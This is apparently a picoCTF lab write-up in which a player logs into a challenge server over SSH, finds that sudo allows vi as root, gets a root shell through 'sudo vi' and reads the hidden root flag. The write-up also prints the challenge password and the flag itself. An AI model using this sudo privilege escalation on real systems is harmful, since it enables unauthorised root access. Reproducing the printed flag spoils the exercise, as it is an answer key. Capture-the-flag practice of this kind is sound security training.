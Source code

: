 ## Introducción
Can you read files in the root file?The system admin has provisioned an account for you on the main server:ssh -p 58301 picoplayer@saturn.picoctf.netPassword: `33qE7mB5BF`Can you login and read the root file?
## Descripción
```
zsh: corrupt history file /home/kali/.zsh_history
┌──(kali㉿kali)-[~]
└─$ ssh -p 58301 picoplayer@saturn.picoctf.net

picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Nov 27 06:29:37 2024 from 187.133.10.31
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo vi

# whoami
root
# cd ..                                           
# ls
picoplayer
# cd ..
# ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
# cd root
# ls -lsf
.  ..  .bashrc  .profile  .viminfo  .flag.txt
# cat flag.txt
cat: flag.txt: No such file or directory
# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}

```

## Solución 
picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}